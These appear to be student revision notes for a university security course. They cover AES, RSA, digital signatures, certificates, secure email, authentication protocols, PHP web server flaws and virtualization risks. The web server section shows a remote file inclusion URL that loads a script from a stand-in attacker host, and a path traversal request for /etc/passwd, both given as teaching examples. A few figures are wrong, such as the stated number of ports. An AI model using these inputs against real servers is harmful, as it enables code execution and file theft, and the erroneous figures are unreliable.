Each byte from the input is replaced by a SubByte using an 8-bit substitution box (essentially a lookup table). Because we are dealing with a 128-bit block size, so each cell in the table is a byte (128/16 = 8).

{kind=link}
ShiftRows
Here, each row of the 128-bit internal state (input of ShiftRows which is output of SubBytes) of the cipher is shifted by a certain offset. In AES the top row is not shifted at all, the next row is shifted by 1 and 2 then 3 for the next two rows. This results in each column of the output state composed of bytes from each column of the input state.
This is important to avoid the columns being encrypted independently, because that would make AES into 4 independent block ciphers.

{kind=link}
MixColumns
Here the output matrix of the ShiftRows step is pre-multiplied with a fixed matrix – this helps with diffusion because if you change a0,1 (even by 1-bit) the entire output column will change (as you know from matrix multiplication).

{kind=link}
AddRoundKey
The only operation in AES that directly operates on the AES round key. In this operation, the input to the round is XORed with the round key.

{kind=link}
Is AES secure?
A computer that can break DES in 8 seconds will take 1.3 × 1015 years to break AES-128.
AES-256 can also provides post-quantum computing assurance.
Public Key Cryptography
Congruence
Two numbers \(a\) and \(b\) are called congruent if they have the same remainder when divided by an arbitrary third number \(n\). We write this as \(a \equiv b\ MOD\ n\) Congruence mod \(n\) forms \(n\) equivalence classes of values \([0; n-1]\) on the integer numbers, with each class having infinitely many elements, of the form \(\{c + kn\ \|\ \forall k \in \mathbb{Z}\}\), with \(c \in [0; n-1]\)
Modular arithmetic identities
The following are equivalent to each other:
\[\begin{matrix} (a + b)\ MOD\ n &\equiv &((a\ MOD\ n) + b)\ MOD\ n &\equiv &((a\ MOD\ n) + (b\ MOD\ n))\ MOD\ n \\\\ (a \cdot b)\ MOD\ n &\equiv &((a\ MOD\ n) \cdot b)\ MOD\ n &\equiv &((a\ MOD\ n) \cdot (b\ MOD\ n))\ MOD\ n \\\\ x^{ab}\ MOD\ n &\equiv &(x^a\ MOD\ n)^b\ MOD\ n &\equiv &(x^b\ MOD\ n)^a\ MOD\ n \end{matrix}\]One Way Function
A one-way function is a function is easy to compute in one direction, but computationally infeasible to calculate in reverse.
In other words, given some inputs, it is easy to get the output, but given an output it is difficult to reverse the function to find the original input(s).
Example of 1 way functions.
- Modular exponentiation function (\(k = y^x \!\!\mod p\))
- Prime factorisation (\(p\cdot q = n\), where \(p\) and \(q\) are large prime numbers).
The Primitive Root
The function below is an example of a one-way function if
\[k = y^x \!\!\!\mod p\]
- \(y\) is the primitive root mod \(p\)
- \(p\) is an enormous number (e.g. 512-bits).
This is because if we try a value of \(x\) for a given \(k\), the probability that \(x\) is correct is \(\frac1{p-1}\) as the value of \(k\) is equally likely to be any number in \([1, p - 1]\).
Conditions for \(y\) to be the “primitive root mod \(p\)”
- Successive powers of \(y\) that takes \(\text{mod } p\) will generate results that loop from 1 to \(p - 1\).
- The generated numbers \(k\) are distributed uniformly in the range of \([1, p - 1]\).
Public Key Encryption
The problem with secret key encryption is that it takes a lot of effort to transfer the key safely. There are a few ways:
- Physical Transfer
- Key Distribution Centre
- Online transfer by breaking the key up to ensure security.
However, public key encryption provides a more elegant solution using a one-way function like the one above.
The idea is that each communication party generates a pair of keys, one private and one public – KPa and KUa respectively where a represents one specific party/individual.
- Sender of a message uses receiver’s public key to encrypt
- Receiver uses their own private key to decrypt.
RSA Encryption
RSA is one of the oldest types of public key encryption schemes.
Here we cover
- How the public key is generated
- How a message is encrypted
- How a private key is generated
- How to decrypt a message
How to generate public key
Firstly, choose 2 large secret prime numbers, \(p\) and \(q\), and calculate their product \(n = p \times q\). \(n\) is the public key.
Next, select another value \(e\), that is
- relatively prime (coprime) to \(p-1\), \(q-1\), and \((p-1) \times (q-1)\).
- and \(1 \lt e \lt (p-1)(q-1)\)
Message Encryption
To encrypt a message, we use this formula \(C = M^e\!\!\!\mod n\) where \(C\) is the ciphertext and \(M\) is the message.
If an eavesdropper gets \(C\), it is computationally infeasible to calculate \(M\).
How to generate the private key
We find a number \(d\) such that
\[e \times d = 1 \!\!\!\mod ((p - 1)\cdot(q - 1))\]Here, \(d\) is the private key owned by Alice and is called the multiplicative inverse of \(e \!\!\!\mod (p-1)(q-1)\).
How do we find d?
There is a formal method of finding the private key (it’s a 15 page paper).
Another way is by iteration. The goal is to find a multiple of \(e\), which is 1 greater than some multiple of \((p–1)(q–1)\). So iterate through the multiples of \((p–1)(q–1)\) and add 1, if that value is a multiple of \(e\) you have found a \(d\), otherwise continue to the next multiple.
Ciphertext Decryption
To decrypt the ciphertext, we use the formula, \(M= C^d\!\!\!\mod n\) As you can see, it is very easy to decrypt the ciphertext given the private key. All that the receiver has to do is to keep the private key safe.
Example of RSA
Let us take the two starting prime numbers as: \(p=11, q=3\) We can then find the public key \(n\) as their product: \(n = pq = 11 \times 3 = 33\) We can now select a value \(e\) which fulfils the properties of being relatively prime to \(10\), \(2\), and \(20\), and in the range \(1 < e < 20\), for example \(e = 7\) Then, we calculate the private key \(d\) from the equation: \(e \cdot d = 1\ MOD\ (p-1)(q-1)\) For which \(d=3\) is a valid solution, as \(7 \times 3 = 21 = 1\ MOD\ 20\). The easiest way to do this is just by trial and error
Then, suppose we want to encrypt a message \(M=7\) using the public key, we can find the ciphertext \(C\) as: \(C = M^e\ MOD\ n = 7^7\ MOD\ 33 = 28\) This can then be decrypted using the secret key as: \(M = C^d\ MOD\ n = 28^3\ MOD\ 33 = 7\)
Why is RSA secure?
To break RSA an attacker must
- Either reverse the one-way function which is computationally difficult
- Or know d, which means to know p and q which means to know n – but n = p × q is also a one-way function.
- The only way is brute force – but a large enough key size will make this infeasible.
To match the security of a 256-bit secret key, the RSA key needs 15460-bits. RSA started with 512-bit public key, but now it is 2048-bits and will need to increase again to 3072-bits from 2030 onwards.
Another implication of a longer key length, k, is encryption and decryption time increases as well
- Encryption time = O(k2)
- Decryption time = O(k3)
Public key vs Secret key Encryption
DES is between 1000 and 10000 times faster than RSA (encryption & decryption)
| Secret | Public |
|---|---|
| Uses XOR, substitution, permutation – fast | Uses a one-way function – slower |
| Key is secret – attacker knows less information and hence requires shorter key for same level of security It is faster to perform operations on a shorter key. |
Only relies on the length of public key to prevent the crack with brute force The longer the key the **slower **the operation. |
| Key distribution is complicated | Key distribution is easy |
Digital Signature & Certificates
Integrity, Authentication & Non-repudiation
Symmetry of Public Key Encryption. We can encrypt and decrypt starting with the public key then the private key, or the other way around! This works according to the property 6 of modular arithmetic stated above.
We encrypt with private keys for anyone and everyone to be able to decrypt because it provides
- Integrity. We don’t care about the privacy of the message, but we want to be sure that no one tampers with it
- Authentication. I want my receiver to know that the message definitely came from me.
- Non-repudiation. If someone sends a malicious message, the system will be able to identify who the owner of the public key is.
To provide integrity, we send an encrypted message along with a plaintext message (remember we don’t care if people see the message, we just don’t want them to tamper with it.)
When our receiver decrypts the message, and compares the 2 messages (plaintext, and decrypted), if they are the same – integrity is guaranteed.
- This is because if someone tampers with our message, they don’t have the private key to encrypt the message they changed, so we will know if someone has tampered with the message.
- They also have a low probability of being able to reverse the one-way function to re-encrypt the tampered message such that the tampered plaintext and tampered ciphertext is the same.
As a result if a ciphertext can be decrypted by my public key, it must mean that the message was encrypted by my private key and hence came from me. This ensures integrity and non-repudiation. This does not necessarily grant authentication and we will see why in the authentication protocols chapter.
Digital Signatures (DS)
One problem however, encrypting an entire message may be costly (time-wise), for the purpose of integrity we don’t actually need to encrypt the entire message.
What we do is
- Calculate the hash of the message (also called digest)
- Encrypt the hash using the private key. This will be our digital signature.
Digital signatures are attached to plain text message, and are used to verify integrity.
The final message is: e + [hash(e)]ku
On the receiver’s end, to verify integrity..
- Use the sender’s public key to decrypt the digital signature to recover the hash.
- Generate a hash of the received plaintext using the same hash algorithm used by the sender.
- Compare the two hashes.
We often denote with square brackets, [hash(e)]ku, that something is encrypted and the subscript states whether it is a private (u) or public (p) key.
Differences between Encryption and DS
| Encryption Scheme | Digital Signature |
|---|---|
| Maintains confidentiality | Provide integrity check, authentication, and non-repudiation |
| Can recover plaintext | Cannot recover plaintext |
Message Authentication Code (MAC)
Another way of providing integrity
The hash of an input file is computed and encrypted using a shared secret key.
This can guarantee integrity but cannot provide non-repudiation
- because MAC is created with the secret key
- Secret key is shared by more than one party
Why MAC?
MAC is used because it is much faster than DS as it uses secret key encryption instead of public.
- Recall secret key uses XOR, shift etc.
- Public key encryption uses modular exponentiation which takes more time to compute.
Digital Certificates (CA)
Digital certificates are provided by a trusted 3rd party called the Certificate Authority. These certify that a public key indeed belongs to somebody.
X.509 cert format is used to compose certificates which includes
- Subject: distinguished name of the user
- Subject’s public key
- Certificate Authority’s subject
- Digital signature of CA
The format of the distinguished name is
O=University of Warwick,
OU=Department of Computer Science,
CN=Ligang He
(O: organisation, OU: Organisation Unit, CN: Common Name)
Authentication through certificates
- A asks for B’s certificate, and B sends it over.
- A uses the CA’s public key to verify B’s certificate.
- If B’s certificate is genuine, B’s public key contained in B’s certificate is genuine.
This is one way authentication, where A can authenticate B’s identity.

Strong Authentication with Certificate
- A’s cert proves that public key belongs to A
- Use A’s public key to verify the message is really signed by A’s private key
- If so, the message must come from A

Authentication Chain
In addition to issuing certs to users, CA can also set up a sub-CA e.g. CA sets up CA1
- CA1 can also issue certs to users
- The certs issued by CA1 are signed by CA1
- CA1 also issues a root cert to itself

Using the authentication chain
- A sends A’s DC and CA1’s DC to B
- B uses CA’s public key to verify CA1’s DC
- B uses CA1’s public key to verify A’s DC
- B uses A’s public key to verify the integrity of the signed message
Web of Trust
There is no centralised certificate authority (CA). Each user establishes their personal web of trust
- Each user creates a cert and can sign other users’ cert
There are 2 attributes about a user. Validity and Trust.
Validity indicates the confidence others have that a certain user’s public key actually belongs to them.
Trust indicates the confidence others have that a certain user is careful when signing other users’ certificates.
Users can rate validity and trust of another user as unknown, marginal, full, or ultimate.
How is validity determined?
Validity between a user A and C is determined by 4 main factors
- Threshold distance
- Validity and Trust score
- Number of users trusted
- Number of valid users
Example
A -> B(V: full, T: full) -> C(V: full, T: full) =
A -> C(V: full, T: full) ✅
-- VS --
A -> B(V: full, T: marginal) -> C(V: full, T: full) =
A -> C(V: marginal, T: marginal) ❌
-- VS --
A -> B1(V: full, T: marginal) -
-> B2(V: full, T: marginal) --> C(V: full, T: full) ✅
-> B3(V: full, T: marginal) -
-- ^ This indicates that all B1, B2, B3 point to C
User C’s key is considered valid by user A if the key has been signed
- by at least one user with “full” trust set by A
- by at least n users with “marginal” trust set by A, where n is predefined in the web of trust scheme.
Further example
A -> B1(V: full, T: full) -> B2(V: full, T: full) -> B3(V: full, T: full)
-> C(V: full, T: full) =
A -> C(V: marginal, T: full) ❌
-- VS --
A -> B1(V: full, T: ultimate) -> B2(V: full, T: ultimate)
-> B3(V: full, T: ultimate) -> C(V: full, T: ultimate) =
A -> C(V: full, T: ultimate) ✅
In the first example even if all users are of full trust on the chain from A to C, C’s key is not considered valid by A if the distance (number of arrows/links) between the 2 users is bigger than a pre-set threshold (i.e 4).
However, if the trust level is ultimate throughout, it breaks the restriction of threshold distance.

Summary – CA vs WoT
Certificate Authority vs Web of Trust
CA is a centralised third party that issues digital certificates to users or other CAs. These CAs are assumed to be reputable and trustworthy. If an authentication chain can be established from a CA to a particular certificate, then the trustworthiness of the certificate is assumed.
Contrastingly, the Web of Trust requires a chain of signatures to be established from each user to the certificate in question, each user acting his own Authority. Users can rate the validity and trustworthiness of other users, and this along with other parameters like the authentication chain length, number of separate chains affect the final score of a particular certificate. This final score determines if it should be trusted or not. This usually relies on personal knowledge of other users, and it should be people they know personally or otherwise have verified the identity of offline.
Disclaimer. Some information here were not directly sourced from the notes and if anything seems “wrong” then please submit a pull request to fix it! Main source I referred to. (yes it’s a wordpress blog, idk how reliable it is but seems to match whatever is covered in the lectures.)
| CAs | WoT |
|---|---|
| More convenient for the end user because CA are assumed to be trustworthy. | Less convenient for end users as they have to continually assess the reliability of certificates. |
| If one CA certificate is compromised, the attacker can impersonate any site on the internet as all CAs have the authority to sign any certificate. | Integrity of the WoT depends on how well-maintained it is by its users. |
| Usually one authentication chain for any certificate, so every chain has a single point of failure. | Usually has multiple signature chains for one certificate. With more chains, a particular certificate is more trustworthy. |
Secure Email
According to the Revision Lecture, the main concepts to know for the exams in this section is PGP encryption.
Some terminology.
- Email domain: Warwick domain, cambridge domain, google domain. e.g. “@warwick.ac.uk”
- Email client: Thunderbird, Outlook etc.
- Email Servers:
- SMTP – responsible for sending email to their destinations
- IMAP or PoP3 servers – responsible for retrieving emails sent by the sender.
How email is delivered
- User begins by using the email client, which connects to the SMTP server and sends the server the email address of the recipient, the name of the sender, and the body of the message.
- SMTP breaks down the recipient’s email into 2 parts: the name (before the @) and the domain (after the @)
- If the domain of recipient and sender are identical, the SMTP server hands the message to the PoP3 or IMAP server for that particular domain.
- Otherwise, SMTP communicates with the Domain Name Server (DNS) for the IP address of the SMTP server in the other domain.
- The SMTP server at the senders side sends the email message to the SMTP server at the recipient’s end, which then hands the message to the PoP3 server for the recipient’s domain.
If SMTP server cannot connect to the other SMTP server, the message goes into a sendmail queue.
- The server will periodically try to resend messages in the queue.
- After several failures, the server will give up and return the mail undelivered.
The PoP3 server for each domain maintains a list of email accounts and a text file for each account.
- When the server receives an email addressed to someone, it formats the email and appends the formatted email to the account’s text file.
- When the recipient checks their email with the email client, the email client
- queries the PoP3 server to send a copy of their text file and tells the server to erase and reset the text file.
- This copy is saved on their local message and the text file is parsed into the separate messages.
General Security Issues in Emails
- Email is free (encourages spam, DoS attacks)
- Email can carry payloads (viruses)
- Email is easy to spoof (if there is no authentication)
Email servers
Email servers contain email information of all email accounts – these will be known to the attacker if the server is compromised.
Additionally, there is no guarantee for delivery if SMTP cannot connect to SMTP at receiver’s end. (Access in CIA)
People have poor passwords.
Emails can also be intercepted on insecure networks (packet sniffers)
- Poor key-generation (if email is not correctly encrypted) – this compromises email confidentiality.

Solutions to problems
Spam
Spams can be handled with a spam filter (SpamAssassin). Spam filters can define a large set of rules
- The format of sender’s email account
- Whether the body of the email contains a certain pattern of words.
These rules are matched against the email and the email is tested for each rule – giving a score. If this score exceeds a threshold, the email will be classified as a spam.
Payloads
Can be tackled with anti-virus software.
Spam filters can also help with this, e.g. if the email has suspicious attachments it can be classified as spam.
Be careful when opening emails is the best way to prevent this.
Spoofing
Originator and apparent originators of an email are different.
- An originator, e.g. some student can pose as a module organiser (apparent originator).
Spam filters may help with spoofing , as this will examine the header of mails to check if the originator and apparent originator matches.
Otherwise, we mainly use Digital Signatures to tackle spoofing.
Interception
A straightforward solution
- To send email, encrypt with the recipient’s public key
- Recipient can then decrypt using their private key.
However we do not use this method because it is slow to encrypt the whole email using public key encryption.
A faster solution is to use a shared secret key to encrypt the message. This is done with a session key.
- Session key is used to encrypt the email message.
- Public key (RSA) is used to encrypt only the session key – hence faster.
- The encrypted key and the email message is sent to the recipient as an encrypted message.
- Recipient’s private key is used to decrypt the secret key which is then used to decrypt the message.
Products that provide this solution.
- PGP (Pretty Good Privacy) – paid
- GnuPG (Gnu Privacy Guard) – open source implementation of OpenPGP
- Windows version Gpg4Win
PGP Encryption
Below is a diagram depicting how PGP Encryption works.
{kind=link}
Security & Authentication Protocols
A security protocol is a fixed pattern of exchanges (steps) between 2 or more communication parties to achieve a security related task.
Diffie-Hellman-Merkel Key Exchange Protocol
For brevity sake, I will refer to it as DHM
We use the DHM protocol when two parties wish to communicate privately, but the communication channel is not secure (everything can be read by outsiders), and they want to use secret key encryption.
To do so, A and B have to first publicly agree on values for y and p in a modular exponentiation one way function: \(y^x \!\!\mod p\)
- \(y\) needs to be the primitive root of \(p\)
- \(p\) is an enormously large prime number
- The two numbers can be publicly known
A and B choose secret numbers, \(a\) and \(b\) respectively, then:
- Put \(a\) into the one-way function and computes the result \(y^a \!\!\mod p = v_A\)
- A sends \(v_A\) to B and receives \(v_B\) from B
- A applies their function to \(v_B\): \((v_B)^a \!\!\mod p\)
- B does the same with \((v_A)^b \!\!\mod p\), where \(b\) is B’s secret number.
A and B will arrive at the same value which they use as their secret key \(s\). \((v_A)^b \!\!\mod p = (v_B)^a \!\!\mod p = s\)
Authentication Protocol
Normally when working in a local environment (secure channel) with a fixed link to the host, we use passwords to authenticate a user. However, more must be done over insecure channels.
Either use encrypted passwords, digital signature, or public key encryption for authentication.
Recall how public keys can be used to ensure integrity and non-repudiation, provided that the public key is trusted. Why can’t it provide authentication as well?
Replay Attack
Let’s say A sends B a message encrypted by KUA, B acknowledges that A is in fact A. However E also stores this message but does not touch it. After the communication with A and B is over, E can replay the message to B and B would accept E as A.
Solution 1. B generates a token R, which is a random number (also called a nonce :eyes: ), that A needs to sign for authentication. The final authenticated token, if it contains a digital signature that is encrypted with A’s private key can only mean it was authenticated by A and B can verify this by decrypting it with A’s public key.
The interaction can be formalised with the notation below.
- A → B : A
- B → A : R
- A → B : [R]A
Solution 2. Timestamping. When A sends message to B, they include a timestamp in the encrypted message. If the message is replayed by E, B will know that it is an old message.
Mutual Authentication
Our above examples are a unilateral authentication: A authenticates B but not the other way around.
Mutual authentication. Two-way authentication
- A → B : A, RA
- B → A : RB, [RA]B (In this step, A will know that B is truly B – as long as public key verified)
- A → B : [RB]A (Here B, will know A is A)
Authentication with DS vs Encryption
Using digital signature:
- A → B: “I’m Alice”
- B → A: R (Bob’s token)
- A → B : [R]Alice (Bob’s token signed by A)
Using public key encryption:
- A → B: “I’m Alice”
- B → A: {R}KPAlice
- A → B: R
This achieves a similar effect to DS.
Authentication Spoofing
There’s still a problem with our protocol. A could communicate with E, but E could be malicious and decide to pass on the message to B. Now B will pass the token to E and E passes it to A and then passes the encrypted token back to B from A.
As a result, B thinks that they are communicating with A.
This is often referred to as a “man-in-the-middle” (MITM) attack
The main idea behind the two solutions are to include information about both the sender and the receiver during communication. Depending on which method we are using to authenticate (DS or Public key Encryption), we include the missing information.
TLDR.
- When using encryption, sender’s id is included.
- When using digital signature, receiver’s id is included
Solution 1. Include the identity of the intended recipient encrypted along with the hash of the token from the recipient because information of the sender is the digital signature.
- A → B: A
- B → A: R
- A → B: [R, E]A 🔔❕❗
Solution 2. If we’re using encryption for authentication (Needham-Schroeder Authentication protocol), enclose the sender’s ID (B below) because receiver’s info is that the message was encrypted with their public key.
- A → B: A
- B → A: {B, R}KPA
- A → B: R
Needham-Schroeder Secret key-based protocol
We saw the public key encryption protocol by NS, they also proposed a secret key authentication protocol. In this protocol, there are 3 parties: A (KSA – key given to A by server), B (KSB – key given to B by server), Server (KAB – session key that server provides to both A and B)
- A → S: A, B, RA1
- S → A: { RA1, B, { KAB, A }KSB }KSA
- A → B: { KAB, A }KSB, { RA2 }KAB
- B → A: { RA2 – 1, RB}KAB
- A → B: { RB – 1 }KAB

Disadvantages. Server needs to distribute secret key directly to B, and since B does not ask for a key, but receives one, if B is not responsive (AFK) or the server somehow can’t reach B then there will be no communication.
Possible Attack
If E manages to obtain an old session key, KAB, E can replay the old message (step 3) relating to that session key.
- If B completes the protocol and assumes that they shared a key with A, E would have tricked B.
- Can prevent this easily with timestamps.
Web Server Security Issues
Note. In the revision lecture, Ligang mentioned that web server will not be tested during the exam 🥳
A large part of this topic was meant for us to understand more about the interactions between a client and the web server – which was relevant for our coursework at the time.
What I have done is included the main security issues at the top of this page, however if there is trouble understanding somethings then you might need to read the sections to understand more about PHP, HTTP requests, Client and Web Server interaction etc.
Remote File Inclusion (RFI) Vulnerability
If the URL sent by the user is:
http://yoursite.com/index.php?page=http://ev.il/badscript.php?
include $_GET[‘page’]”.html” becomes:
include http://ev.il/badscript.php?.html
What happens is that badscript.php will be run, because the content after “?” will be interpreted as input parameter of the php script.
Forms
A form is used to pass information from a web browser to a web server.
There are 2 different ways to submit a form, GET or POST. Especially when forms contain sensitive information, POST is always safer than GET. When a form is sent:
- GET request will have form parameters encoded in the head of the HTTP request as the address of the resource that we want to access.
- POST requests will have the form parameters placed in the body of the HTTP requests. More secure because we can encrypt the HTTP request.
Call OS commands in PHP
When using PHP, sometimes developers make the mistake of running shell commands through the PHP file that has a parameter/variable that depends on form inputs.
This is a potential vulnerability as an attacker can send code through these inputs and can make the web server OS perform commands that could compromise security.
Path Exploits
Path exploits try to enter the directory or access files that are not intended to be accessible.
For example, if the user in put the web address:
http://www.example.com/home/users/…/etc/passwd
Without proper configuration, the passwd file will be displayed. When allow _url_fopen (a directive in the php configuration file - php.ini) is set to “on” – User’s will be allowed to retrieve and display the file in server, even if the file is not a typical web page (e.g. html or php).
Robot Exclusion Protocol
Web crawlers or Web robots systematically scan the World Wide Web to mine data.
Robot Exclusion Protocol (REP) specifies which directories of the website that the robot should not scan.
Instructions are written in the robots.txt file, which is in the root directory of the web server. Example:
User-agent:* # apply to all robots
Disallow:/local/secure.html
User-agents:Googlebot # apply only to Googlebot
Disallow:/private/
When there is sensitive data, we should exclude robots from crawling those files.
Accompanying resources
That concludes the content covering potential security issues related to web servers. The content below is an additional resource to give background information about the Web Servers, PHP and HTTP requests. I recommend that you give it a read if you’re not confident in your knowledge of this topic.
Interaction between Client and Web Server
In general there are 5 main steps between client and server
- User issues URL from a browser
- Browser sends a request message
- Server maps the URL to a file or program under the document directory
- Server returns a response message
- Browser formats the response and displays
HTTP Request
When a client types a URL address into the browser, our browser composes a message such as
GET /docs/index/.html HTTP/1.1
Host: www.nowhere123.com
Accept: image/gif, image/jpeg, */*
Accept-Language: en-us
Accept-Encoding: gzip, deflate
User-Agent: Mozzila/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
{blank line}
The message consists of a number of lines. The first line is the request line.
- Format: message_name request-uri (address of the resource we want to access) HTTP-version.
- In the example this is the first line.
Request line is followed by request headers
- Format: name : value pairs
- In the example this is the 2nd line. Name is “Host”. Value is “www.nowhere123.com”
Request line and request headers are together called request message header, followed by request message body. In the example above, the request message body is blank.
HTTP Request Methods
- HTTP protocol defines a set of request methods.
- in the example above, the message is GET - when we type an address in the browser search bar, we always trigger a GET request.
Methods supported by web server
- GET : get a web resource from the server
- HEAD: get the header that a GET request would have obtained
- POST: Used to post the data up to the web server
- PUT: Ask the server to store the data
- DELETE: Ask the server to delete the data
- OPTIONS: Ask the server to request the list of request methods it supports
How HTTP server process requests
Listening
HTTP server listens to the port(s) specified in the configuration file of the server
- Port is the endpoint communication destination and is associated to a process/service
- the request arriving at a certain port will be processed by the associated service
- port is a 16 bit number- there are 66536 ports in a computer
- http: 80, ssh: 22, ftp: 21, smtp: 25, etc.
Processing
After the server receives the request there are three general ways to process to request
- map the request to a file in the directory in the server, and returns the file to the client
- map the request to a program in the server, executes the program, and returns the output of the program to the client. (e.g. post request, CGI)
- the request cannot be satisfied, the server returns an error message.
If the webpage is HTML file, CGI is one way to invoke a program in the server. If we use PHP to write a webpage we can embed functions in the web page. PHP is a tool for making dynamic web pages.
PHP
A section in HTML file. Here is an example:
<?php
echo My first PHP
?>
Dynamic file loading in PHP
Suppose the link of your website is: http://yoursite.com/index.php
In the webpage, there is the following php code:
<?php include $_GET['page']".html"; ?>
PHP supports loading a file based on data passed via the URL parameter.
When the user types the following web address:
http://yoursite/com/index.php?page=photos
- The content after “?” is interpreted as the parameter of the request
- i.e. index.php is run with “page=photos” as input parameter.
Lets look more at include $_GET['page']".html:
In PHP there are internal arrays which are used to hold information that are passed from the client. The $_ tells PHP that we are trying to access an array and GET['page'] tells PHP we are trying to access the page variable in the GET array. The include statement loads “photos.html” because we pass page=photos.
It is a dynamic web page, because the same source of the web page displays different content depending on the user’s input
For example, if the user types page=contact, then contact.html page will be loaded instead.
Virtualization
Virtualization technology allows multiple operating systems to share a computer – a running instance of an operating system is called a Virtual Machine
Introduction to Virtualization
Terminologies.
- Host Machine – physical machine VM is running on
- Host OS – OS in the host machine
- Guest OS – OS in the VM
Architecture of a Physical Machine
The OS sits between the hardware and its applications and manages the interaction between application and hardware resources. It is the lowest level software in a machine.

Virtualization Architecture
Embedded
In an embedded architecture, the hypervisor sits in between guest OSes and hardware. Each grey box is called a domain and is a VM – they are managed by the hypervisor.
Properties of Domain0 in Xen
- Domain0 is able to manage and control other guest domains
- Domain0 contain device drivers to access hardware, guest domains cannot access hardware
- When guest domains want to request access to hardware, they are routed to Domain0.
- Multiple guest domains share resources with other guest domains (resources are virtualized).
- Can interact with other VMs

Non-embedded
Hypervisor runs as an application to host OS e.g. QEMU.
These type of systems use a technique called dynamic binary translation technique. This translates an instruction issued in Guest OS to an instruction that can run in the host OS.
This is also why non-embedded architectures are slower than embedded, because every instruction has to be translated.

Abstract of Physical Resources
Inside the hypervisor, hardware is simulated as files – virtual disk (vDisk), virtual CPU (vCPU), virtual memory (vRAM).
- These files are transferred to real hardware when necessary
- This is why in the coursework we create a
.cowfile for QEMU
Life cycles of VMs
In a normal physical machine, you can be in 3 states: Off, Running, or Suspended (Sleep).
In VMs, you have an additional state: Paused
- VM is still resident in the host machine but not allocated CPU.
- When multiple VMs are resident, only 1 VM is allocated CPU at a time (running on the physical machine), other VMs will be paused.
Impact of Virtualization on Security
Below are a list of properties of VMs, and their impact on security.
Isolated
Isolation
In a traditional multi-user OS, all user in the computer can be affected by an attack
In virtualisation, each guest OS is encapsulated and hardware is abstracted
- Each VM accesses separate file systems and memory blocks
- VM technology provides an extra layer of isolation.
Ideally a VM compromised by attackers will not affect the host or other VMs on the host
Isolation and abstraction of VMs provides an additional security over traditional multi-user computers
Transient
Transience
Physical servers are often always on while VMs can be started very quickly and remotely
Typically VMs are turned on only when they are needed, and turned off when they are not used anymore
Limiting operating time of VMs mitigates security risks because we can only infect a machine (physical or virtual) that is on.
However. It is a double edged sword.
When virus hits conventional networks of physical machines, administrators often do the following
- Identify which machines are infected
- Clean up infected machines
- Apply security patches to prevent re-infection
In virtualised environments, infected VMs may appear briefly and disappear before they can be detected making it difficult to identify which VMs are infected.
When performing patch management, virus and vulnerability scanning, the machines must be on. Because VMs are transient and not always on – difficult to fix the vulnerability of infected VMs.
The infected VMs may appear online briefly, infect other VMs and disappear offline before they are noticed making it difficult to eradicate the infection in the system.
As a result, in virtualisation environment worm/virus infections tend to persist at a low level and flare up again at another time.
State Restoring
The virtual disk for a VM is stored as a file on the hypervisor. This allows the hypervisor to record changes to the contents of the virtual disk.
It is easy for VMs to restore to previous states.
State restore provides a virus removal mechanism for infected VMs and helps ensure data integrity.
However, if the hypervisor is compromised then we can’t restore state, and attackers have unlimited freedom and access to the hardware. (Limitation)
Additionally, since it is easy to restore infected VMs many users are not motivated to secure their VMs with virus protection
- 60% of VMs in production are less secure than their physical counterparts, due to this factor
Security Patches
In physical machines, when a new security patch is applied, the machines remain patched. A VM may also get the security patch, but if the user rolls back to a previous state, then the guest OS is no longer patched. It is challenging for system administrators to apply security patch in VMs because they have to
- record when patches have been applied
- evaluate which patches need to be applied again when a VM is restored to a previous state
Furthermore, rolling back a VM may expose vulnerabilities
- re-expose patched vulnerabilities or virus
- re-enable accounts or passwords that have been disabled
- reuse encryption keys/tokens that have been deleted.
Data Lifetime
A fundamental principle for building secure systems is minimising the amount of time that sensitive data remains in a system
In virtualised system, all changes are recorded, which undermines the principle. Moreover, the state changes will be transferred to persistent storage, which again break the security principle.
Low Privilege
In a physical computer, OS is the software that has the highest privilege in the computer
- OS can only be monitored by itself in a physical machine
- If the OS is infected with virus, it cannot be trusted. (Not reliable)
A VM has lower privilege than the hypervisor.
- VMS can be monitored by either the hypervisor, or by an authorised dedicated VM (Domain0)
- The latter is preferred method since it helps keep the hypervisor simple
- The hypervisor gives the dedicated VM the permission to view resources allocated to the monitored VM.
Security Patch
In physical machines, when a new security patch is applied, the machines remain patched ,
A VM may also get the security patch, but if the user rolls back to a previous state, then the guest OS is no longer patched
Therefore, it is very challenging for system administrators to apply security patch in VMs because they have to
- record when patches have been applied
- evaluate which patches need to be applied again when a VM is restored to a previous state
Mobile
Mobility
VMS are not physical, everything about a VM is virtualised as files – makes theft of data easier.
In fact, attackers can access copies of VM that are located on the physical disk of the host machine. Because the Guest OS has no access to that disk, the VM will not show any records of intrusion.
Being offline does not guarantee safety. An attacker can access and modify VM files while the VM is offline. A physical machine must be running to be susceptible.
Easy to Create
In a traditional network of physical machines, all machines have same configurations.
- When there are security vulnerabilities, the same security measure can be applied to all machines
VMs can be created rapidly, each with a unique configuration (VM Sprawl)
- Cannot apply a uniform security measure to all VMs
- The rapid growth of VMs exceeds the administrators’ ability to secure each unique VM
Lack of Identity
In a traditional environment, a machine can be identified by MAC address, Ethernet port number. It is used as a mechanism of non-repudiation – the system has the mechanism to check who did something.
In a virtualised system , there is only one physical MAC address and a Port number, but multiple VMs are running so we cannot use MAC or ethernet port number for non-repudiation anymore.
Other Security Issues
Hypervisor Intrusion
If the hypervisor is compromised, the attacker can access all the VMs.
For non-embedded hypervisor, the hypervisor is a program, running on the host OS
- If it is compromised, all VMs can be accessed
- The host OS will be in danger as well, as the hypervisor converts instructions (dynamic binary translation) for the guest OS into instructions for the host OS
- This means he instructions sent by hypervisor can no longer be trusted as it could be malicious.
Security due to Inter-VM communication
“VM-to-VM” attacks means that attackers user one VM to access or control other VMs on the same hypervisor.
Attacks can be achieved by inter-VM communication. A malicious VM can potentially access other VMs because all VMs share resources (memory, network connections etc.) on the hypervisor.
One example is with the embedded architecture of virtualization.
Domain0 is connected to all guest domains and inter-VM communication happens through the hypervisor. An attack on the shared memory segment of the hypervisor can use 1 VM to attack another VM.
Denial of Service
An improperly configured hypervisor can allow a single VM to consume all resources, starving other running VMs.
However, the solution to this is simple. Hypervisors should prevent any VM from gaining 100% usage of any resources.